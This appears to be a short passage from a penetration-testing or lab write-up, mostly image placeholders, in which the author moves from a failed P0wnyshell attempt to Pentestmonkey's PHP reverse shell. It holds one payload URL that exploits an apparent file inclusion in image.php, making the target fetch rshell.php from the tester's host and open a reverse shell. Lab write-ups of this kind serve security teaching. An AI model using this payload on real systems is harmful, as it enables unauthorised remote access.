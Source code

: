 ![image](Picture10.png)


P0wnyshell doesn't work. Let's try [Pentestmonkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell). The payload on this occasion is:
```sh
http://192.168.155.58/image.php?img=http://192.168.45.218:80/rshell.php
```

![image](Picture11.png)
